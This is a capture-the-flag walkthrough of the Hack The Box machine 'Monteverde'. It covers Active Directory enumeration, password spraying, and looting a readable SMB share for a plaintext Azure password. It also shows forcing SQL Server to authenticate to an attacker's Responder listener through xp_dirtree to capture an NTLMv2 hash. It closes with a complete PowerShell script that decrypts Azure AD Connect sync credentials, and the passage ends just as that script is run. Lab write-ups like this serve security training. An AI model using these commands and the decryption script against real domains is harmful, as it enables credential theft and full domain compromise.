


`Box: Windows Medium`
### `Index`
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap`](#`Initial%20Nmap`)
3. [`RPC Enum`](#`RPC%20Enum`)
4. [`LDAP Enum`](#`LDAP%20Enum`) 

### `Box Info`
```
Monteverde is a Medium Windows machine that features Azure AD Connect. The domain is enumerated and a user list is created. Through password spraying, the `SABatchJobs` service account is found to have the username as a password. Using this service account, it is possible to enumerate SMB Shares on the system, and the `$users` share is found to be world-readable. An XML file used for an Azure AD account is found within a user folder and contains a password. Due to password reuse, we can connect to the domain controller as `mhope` using WinRM. Enumeration shows that `Azure AD Connect` is installed. It is possible to extract the credentials for the account that replicates the directory changes to Azure (in this case the default domain administrator).
```
### `Initial Nmap`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.172
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 02:57:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
```

`MEGABANK.LOCAL0` should go to `/etc/hosts`.
### `RPC Enum`
```
rpcclient $> lsaquery
Domain Name: MEGABANK
Domain Sid: S-1-5-21-391775091-850290835-3566037492

rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]

rpcclient $> queryuser 0x641
	User Name   :   mhope
	Full Name   :   Mike Hope
	Home Drive  :   \\monteverde\users$\mhope

rpcclient $> queryuser 0xa2a
        User Name   :   SABatchJobs
        Full Name   :   SABatchJobs
```

So using RPC Enumeration, We have prepare the list of users as follows.
```
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
### `LDAP Enum`
```
# ldapsearch -H ldap://10.10.10.172 -x -s base -b '' "(objectClass=*)" "*" +
rootDomainNamingContext: DC=MEGABANK,DC=LOCAL
ldapServiceName: MEGABANK.LOCAL:monteverde$@MEGABANK.LOCAL
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL
serverName: CN=MONTEVERDE,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Co
 nfiguration,DC=MEGABANK,DC=LOCAL
schemaNamingContext: CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL
namingContexts: DC=MEGABANK,DC=LOCAL
namingContexts: CN=Configuration,DC=MEGABANK,DC=LOCAL
namingContexts: CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL
namingContexts: DC=DomainDnsZones,DC=MEGABANK,DC=LOCAL
namingContexts: DC=ForestDnsZones,DC=MEGABANK,DC=LOCAL
isSynchronized: TRUE
highestCommittedUSN: 78027
dsServiceName: CN=NTDS Settings,CN=MONTEVERDE,CN=Servers,CN=Default-First-Site
 -Name,CN=Sites,CN=Configuration,DC=MEGABANK,DC=LOCAL
dnsHostName: MONTEVERDE.MEGABANK.LOCAL
defaultNamingContext: DC=MEGABANK,DC=LOCAL
currentTime: 20241112050027.0Z
configurationNamingContext: CN=Configuration,DC=MEGABANK,DC=LOCAL
```
### `Password Spraying - NetExec`
```
# netexec smb 10.10.10.172 -d 'megabank.local' -u usernames -p passwords --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] megabank.local\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] megabank.local\AAD_987d7f2f57d2:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] megabank.local\mhope:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] megabank.local\SABatchJobs:Guest STATUS_LOGON_FAILURE 
<!___________________________________________SNIPPED__________________________________________!>
SMB         10.10.10.172    445    MONTEVERDE       [+] megabank.local\SABatchJobs:SABatchJobs
```

Seems like the user `SABatchJobs` uses the username as the password.
```
# netexec smb 10.10.10.172 -d 'megabank.local' -u SABatchJobs -p SABatchJobs --shares         
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] megabank.local\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ   
```

Getting into `users$` share after exploring all the other shares
```
# smbclient -U 'megabank.local\SABatchJobs%SABatchJobs' //10.10.10.172/users$
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020

		31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml 
getting file \mhope\azure.xml of size 1212 as azure.xml (3.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)
```

Looking at the `azure.xml` file, we got the password for the user `mhope`
```
# cat azure.xml                   
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs> 
```

```
# evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
0c1dc*******************************
```

We got the user flag.

### `Priv Esec`
```
######### Cloud Credentials
#  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\mhope\.azure\TokenCache.dat (Azure Token Cache)
    Accessed:1/3/2020 5:36:14 AM -- Size:7896                                                                                                                           

    C:\Users\mhope\.azure\AzureRMContext.json (Azure RM Context)
    Accessed:1/3/2020 5:35:57 AM -- Size:2794                                                                                                            
```
###### `sqlcmd list out databases`
Looking inside the `Program Files`, I saw that the SQL Server is installed. So Enumerating the database using SQL Server
```
*Evil-WinRM* PS C:\Program Files\Microsoft SQL Server\110\Tools\Binn> sqlcmd -Q "select name from sys.databases"
name
--------------------------------------------------------------------------------------------------------------------------------
master
tempdb
model
msdb
ADSync
```
The `ADSync` Database is present.
###### `PowerUpSQL - Finding Priv Esec Path`
Using [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) I was trying to enumerate the Privilege Escalation Path.
```
*Evil-WinRM* PS C:\PowerUpSQL> Import-Module .\PowerUpSQL.ps1
*Evil-WinRM* PS C:\PowerUpSQL> Invoke-SQLAudit
Verbose: MONTEVERDE : No named instance found.
Verbose: MONTEVERDE : Connection Success.
Verbose: MONTEVERDE : Checking for autoexec stored procedures...

=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Excessive Privilege - Execute xp_dirtree
Description   : xp_dirtree is a native extended stored procedure that can be executed by members of the Public role by default in SQL Server 2000-2014. Xp_dirtree can be used to force the SQL Server service account to authenticate to a remote
                attacker.  The service account password hash can then be captured + cracked or relayed to gain unauthorized access to systems. This also means xp_dirtree can be used to escalate a lower privileged user to sysadmin when a machine or
                managed account isnt being used.  Thats because the SQL Server service account is a member of the sysadmin role in SQL Server 2000-2014, by default.
Remediation   : Remove EXECUTE privileges on the XP_DIRTREE procedure for non administrative logins and roles.  Example command: REVOKE EXECUTE ON xp_dirtree to Public
Severity      : Medium
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : No
ExploitCmd    : Crack the password hash offline or relay it to another system.
Details       : The public principal has EXECUTE privileges on the xp_dirtree procedure in the master database.
Reference     : https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Excessive Privilege - Execute xp_fileexist
Description   : xp_fileexist is a native extended stored procedure that can be executed by members of the Public role by default in SQL Server 2000-2014. Xp_dirtree can be used to force the SQL Server service account to authenticate to a remote
                attacker.  The service account password hash can then be captured + cracked or relayed to gain unauthorized access to systems. This also means xp_dirtree can be used to escalate a lower privileged user to sysadmin when a machine or
                managed account isnt being used.  Thats because the SQL Server service account is a member of the sysadmin role in SQL Server 2000-2014, by default.
Remediation   : Remove EXECUTE privileges on the xp_fileexist procedure for non administrative logins and roles.  Example command: REVOKE EXECUTE ON xp_fileexist to Public
Severity      : Medium
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : No
ExploitCmd    : Crack the password hash offline or relay it to another system.
Details       : The public principal has EXECUTE privileges on xp_fileexist procedure in the master database.
Reference     : https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_connectorspace].[password_hash_sync_attempts] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_connectorspace].[password_sync_target] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_connectorspace].[is_password_hash_sync_retry] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_management_agent].[controller_configuration_password] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_metaverse].[lastPasswordChangeTimestamp] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_metaverse_lineagedate].[lastPasswordChangeTimestamp] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_metaverse_lineageguid].[lastPasswordChangeTimestamp] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_partition].[password_hash_custom_data] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_partition].[passwordsync_last_successful_cycle_start_date] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_partition].[passwordsync_last_successful_cycle_end_date] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_partition].[passwordsync_last_cycle_start_date] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_partition].[passwordsync_last_cycle_end_date] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_partition].[passwordsync_last_cycle_status] : "".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_server_configuration].[passwordset_sid] : "System.Byte[]".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
=========================================================================================================================================================
ComputerName  : MONTEVERDE
Instance      : MONTEVERDE
Vulnerability : Potentially Sensitive Columns Found
Description   : Columns were found in non default databases that may contain sensitive information.
Remediation   : Ensure that all passwords and senstive data are masked, hashed, or encrypted.
Severity      : Informational
IsVulnerable  : Yes
IsExploitable : Yes
Exploited     : Yes
ExploitCmd    : Invoke-SQLAuditSampleDataByColumn -Instance MONTEVERDE -Exploit
Details       : Data sample from [ADSync].[dbo].[mms_watermark_history].[password_hash_custom_data_compressed] : "System.Byte[]".
Reference     : https://msdn.microsoft.com/en-us/library/ms188348.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
```
###### `Trying to exploit xp_dirtree and grabbing NetNTLMv2 hash`
Start a Responder using `responder -I tun0` than
```
*Evil-WinRM* PS C:\PowerUpSQL> sqlcmd -Q "xp_dirtree '\\10.10.14.2\test'"
subdirectory                                                                                                                                                                                                                                                         depth
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- -----------

(0 rows affected)
```

on the `Responder` Side,
```
[SMB] NTLMv2-SSP Client   : 10.10.10.172
[SMB] NTLMv2-SSP Username : MEGABANK\MONTEVERDE$
[SMB] NTLMv2-SSP Hash     : MONTEVERDE$::MEGABANK:b639ac0122e727ed:8C7C7FE3D83E8B3DA2D51BC99111B711:010100000000000000A9AED2D234DB01D94E60BD5B1CB656000000000200080041004A005A00410001001E00570049004E002D00480036004D004F0035004A005700320035005A004E0004003400570049004E002D00480036004D004F0035004A005700320035005A004E002E0041004A005A0041002E004C004F00430041004C000300140041004A005A0041002E004C004F00430041004C000500140041004A005A0041002E004C004F00430041004C000700080000A9AED2D234DB01060004000200000008003000300000000000000000000000003000001D6E4D00C9776DD1166D43A5634E5A5CC1DADB43AB094A27CF117A28EF8CFD360A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000                                                                                                                    
[*] Skipping previously captured hash for MEGABANK\MONTEVERDE$
```
the hash was not crackable.

###### `Extracting data from mssql`
After a while, I stumbled upon the blog [Azure AD Connect for Red Teamers](https://blog.xpnsec.com/azuread-connect-for-redteam/) and did few of the following steps.
```
*Evil-WinRM* PS C:\PowerUpSQL> sqlcmd -Q "Use ADSync; select private_configuration_xml FROM mms_management_agent"
Changed database context to 'ADSync'.
private_configuration_xml
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
<MAConfig>
      <primary_class_mappings>
        <mapping>
          <primary_class>contact</primary_class>
          <oc-value>contact</oc-value>
        </mapping>
        <mapping>
          <primary_class>device</primary_class>
          <oc-v
<adma-configuration>
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL

(2 rows affected)
```

We also got the encrypted configuration.
```
*Evil-WinRM* PS C:\PowerUpSQL> sqlcmd -Q "Use ADSync; select encrypted_configuration FROM mms_management_agent"
Changed database context to 'ADSync'.
encrypted_configuration
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
8AAAAAgAAACfn4Lemwuy/a+hBmbvJMeKVf/3ScxlxjHq9eM7Gjy2YLrrsqeRUZh51ks9Dt6BFTSd8OdCHG209rYsFX6f5Az4ZdpscNYSncIaEaI4Re4qw4vNPSIb3DXX6FDtfQHF97fVDV6wp4e3XTni1Y/DEATO+fgJuveCSDf+lX0UNnQEGrTfdDY9sK5neJ5vquLr0pdobAI6vU2g55IrwahGfKmwFjWF5q+qJ3zGR1nfxgsc0xRUNY2xWKoz
8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

(2 rows affected)
```

From the Encrypted Configuration, We can get the encrypted password
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Monteverde.htb]
└─# echo -n "8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g" | base64 -d | xxd   
00000000: f000 0000 0800 0000 5084 2041 9f04 e975  ........P. A...u
00000010: f404 eae3 4978 9586 8efa 6cd3 cb24 0033  ....Ix....l..$.3
00000020: 890e a33b e21c 37f6 b556 316a d0ba 42c0  ...;..7..V1j..B.
00000030: 118a 5faa e936 0a09 6a1c 9dc6 7f1c cd5a  .._..6..j......Z
00000040: 5b7d fa06 bedb 0996 034c c777 7b86 0fcb  [}.......L.w{...
00000050: e4fe f7e7 b05d e9d9 a289 ee7f 4800 1e75  .....]......H..u
00000060: c637 b442 b0cb 35d3 aa3b 1a1d f27e d57b  .7.B..5..;...~.{
00000070: 26cd 5bfd 64f9 85ae 6248 840f 7c4e f0fc  &.[.d...bH..|N..
00000080: 9eef 68ba 0fd7 3941 3ce3 4e55 dee6 a81d  ..h...9A<.NU....
00000090: e130 9da7 87e6 55df 9494 bfdd 593f e684  .0....U.....Y?..
000000a0: 91ef 7bf7 7dcc 5af6 117e 6be7 ed53 2db2  ..{.}.Z..~k..S-.
000000b0: 42cd 8507 a852 efbe 909d d6b2 44af af20  B....R......D..
```

but if you look at the above blog post, there's one PowerShell Script where they import `mcrypt.dll` and use internal command to decrypt the above password. Because for Azure AD Sync to work, It has to know the password somehow.

###### `Troubleshoot the PowerShell PoC`
So while running the powershell Poc, which supposed to grab the credentials for the Admin users, I was seeing the following error

Clearly seems that there's something wrong with the script. Since I can't debug, I decided to run line by line to see where the script breaks.



Okay so it breaks when trying to open the SQL connection. I will need to fix the connection string the script.

```
# cat azure_ad_poc.ps1 
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

Running the script

```
*Evil-WinRM* PS C:\tmp> .\azure_ad_poc.ps1
AD Connect Sync Credential Extract POC (@_xpn_)

